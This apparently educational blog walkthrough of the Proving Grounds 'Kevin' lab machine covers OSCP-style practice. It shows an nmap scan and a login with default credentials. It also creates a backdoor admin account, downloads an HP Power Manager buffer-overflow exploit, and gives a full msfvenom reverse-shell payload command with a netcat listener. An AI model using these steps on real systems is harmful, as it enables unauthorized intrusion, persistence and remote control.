 ```yaml
---
title: Kevin Walkthrough - Proving Grounds
description: Walkthrough of the Kevin machine from Proving Grounds
author: Cyber Operator
date: 2024-07-25T16:55:50.565Z
tags:
  - Tags
---
```

# Kevin Walkthrough

This machine is classified as "Easy" under Proving Grounds.  It is a machine meant for practicing pentest in general or certification training, such as OSCP and others.

## 1. Nmap Scan:

We start with an Nmap version scan with the vuln script accross all ports

`nmap -sC -sV --script vuln -p- [target IP]`

![](/static/img/screenshot-2024-07-25-at-2.07.39 pm.png)

![](/static/img/screenshot-2024-07-25-at-2.08.47 pm.png)

Several things jump out, including a potential Remote Execution vulnerability.  Before going into that, let's recon the page at port 80 (GoAhead Webserver).  We start here, because it is literally an invitation to "Go Ahead":

We see a login for "HP Power Manager"

![](/static/img/screenshot-2024-07-25-at-1.05.04 pm.png)

As usual, we try to find default credentials:

![](/static/img/screenshot-2024-07-25-at-1.06.46 pm.png)

Let's try it out:

And using the admin:admin combination, we are logged in!

![](/static/img/screenshot-2024-07-25-at-1.08.05 pm.png)

While we are at it, let's create a new user in the app.  We'll make them an administrator.  This allows us to get back in the app if in the future an admin decides to actually change the default password.  We create user groot:iamgroot

![](/static/img/screenshot-2024-07-25-at-2.05.25 pm.png)



That gives us a surface to consider.  Before doing that, let's also zero in on the SMB vulnerability that we saw from the nmap scan:

![](/static/img/screenshot-2024-07-25-at-1.09.37 pm.png)

 

**NOTE: We are jumping around between potential vulnerabilities on purpose. I have not worked on this machine before and am writing the walkthrough real-time. I don't know which one of these vulnerabilities can be exploited or which one to work on first.  The thought process is what counts. In the real world (and in certification exams) there are vulnerabilities that are rabbit holes that sometimes hide the real gems.  The idea is to document everything you see as you work and see which vulnerability pays off faster/easier.  With that out of the way, let's continue!**

Let's look on searchsploit:

![](/static/img/screenshot-2024-07-25-at-1.18.34 pm.png)

Those are some exploits to consider.  To close the loop and for throroughness, let's check out more info on the  HP Power Manager.  We already discovered that it has default credentials and we also created our own user "groot".  There may be even more attack surfaces!

We do a simple Google search and find that there may be a buffer overflow vulnerability!

![](/static/img/screenshot-2024-07-25-at-2.25.48 pm.png)

And this is confirmed at exploit-db:

![](/static/img/screenshot-2024-07-25-at-2.28.06 pm.png)

Ok, that is enough exploring (at least for now).  Time to exploit!

## Exploitation:

We already saw the exploit that we found through a Google search.  Another way (without using a browser) is to use searchsploit again:

`searchsploit HP Power Manager`

![](/static/img/screenshot-2024-07-25-at-3.45.31 pm.png)

To download the exploit, we use

`searchsploit -m windows/remote/10099.py`

![](/static/img/screenshot-2024-07-25-at-3.49.23 pm.png)

Looking at the code for the exploit, we see that we need to use msvenom to generate shellcode (replace the default on the exploit file).

![](/static/img/screenshot-2024-07-25-at-3.52.28 pm.png)

Using msfvenom (and the bad string provided in the exploit code, we will use this command to generate our shellcode:

msfvenom -p windows/shell_reverse_tcp -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.49.60 LPORT=4444 -e x86/alpha_mixed -f c

This generates our shellcode

![](/static/img/screenshot-2024-07-25-at-5.44.18 pm.png)

Then, we paste our shellcode into the exploit file, replacing the previous version:

![](/static/img/screenshot-2024-07-25-at-5.45.47 pm.png)

Now we are ready, so we use a new terminal window to open a netcat listener with this command:

`nc -nlvp 4444`

On a separate window, we run the exploit file (I got errors using python3, so tried python2:

![](/static/img/screenshot-2024-07-25-at-5.50.39 pm.png)

We go to our netcat listener and we got a reverse shell! The shell is privileged so escalation is not required.

![](/static/img/screenshot-2024-07-25-at-5.53.00 pm.png)

Now we look for the flag.

![](/static/img/screenshot-2024-07-25-at-5.57.44 pm.png)